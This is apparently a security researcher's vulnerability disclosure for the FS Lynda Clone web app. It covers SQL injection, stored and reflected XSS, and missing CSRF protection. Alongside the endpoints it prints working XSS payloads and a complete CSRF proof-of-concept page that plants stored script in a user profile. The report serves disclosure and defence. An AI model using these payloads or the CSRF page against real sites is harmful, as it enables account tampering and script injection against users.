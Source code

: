 ### FS Lynda Clone- the lastest version - SQL Injection/XSS/CSRF

Well,  when I pentest the official demo site of FS Lynda Clone, I found some vulnerabilities here.


#### SQL Injection:

As you can see here, we can obtain the current database user or more sensitive data now!
For example:
```
http://lynda-clone.demonstration.co.in/tutorial/

POST para:
keywords=123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/sqli.png)


#### XSS:

Here I found some xss, inclue stored-xss and reflect-xss：

##### Reflect-Xss
```
http://lynda-clone.demonstration.co.in/tutorial/

POST：
keywords=123'"><svg/onload=alert(/XSS/)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss1.png)

##### Stored-Xss

It's the user panel here, some fields suffer this bug.
```
http://lynda-clone.demonstration.co.in/user/edit_profile

POST parameters:
Jhon'"><svg/onload=alert(/xss/)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss3.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/FS-Lynda-Clone/xss4.png)

By the way , these xss vulnerabilitys need to be combined with csrf attack.

#### CSRF
There is no csrf protection here.
For example , with the aforementioned stored-xss , we can add a evil content to the user panel:

```
<html>
   <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/lynda-clone.demonstration.co.in\/user\/edit_profile", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryTbB3nj532aSAuKxi");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_first_name\"\r\n" + 
          "\r\n" + 
          "Jhon\'\"\x3e\x3csvg/onload=alert(/xss/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_last_name\"\r\n" + 
          "\r\n" + 
          "Doe\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_email\"\r\n" + 
          "\r\n" + 
          "user@yourmail.com\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_mobile\"\r\n" + 
          "\r\n" + 
          "9871452630\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_country\"\r\n" + 
          "\r\n" + 
          "India\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_photo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_photo_name\"\r\n" + 
          "\r\n" + 
          "20170802141220498.jpg\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_about\"\r\n" + 
          "\r\n" + 
          "Maecenas accumsan, massa nec vulputate congue, dolor erat ullamcorper dolor, ac aliquam eros sem in dui. In eu sagittis metus. Proin consectetur suscipit dui sed euismod. Nam non metus in est vehicula vestibulum et vel neque. Mauris scelerisque lectus at diam pretium, eget fringilla erat sollicitudin.Pellentesque quis pharetra tellus. Donec interdum nisi at sem ornare, ut congue felis eleifend. Nam elementum nec leo eget pharetra. Quisque consectetur porta erat sit amet fermentum.\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social1\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social2\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social3\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_social4\"\r\n" + 
          "\r\n" + 
          "##\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile_testimonial\"\r\n" + 
          "\r\n" + 
          "Cras dapibus. Vivamus elementum semper nisi. Aenean vulputate eleifend tellus. Aenean leo ligula, porttitor eu, consequat vitae, eleifend ac, enim. Aliquam lorem ante, dapibus in, viverra quis, feugiat a, tellus. Phasellus viverra nulla ut metus varius laoreet. \r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi\r\n" + 
          "Content-Disposition: form-data; name=\"edit_profile\"\r\n" + 
          "\r\n" + 
          "Update\r\n" + 
          "------WebKitFormBoundaryTbB3nj532aSAuKxi--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```










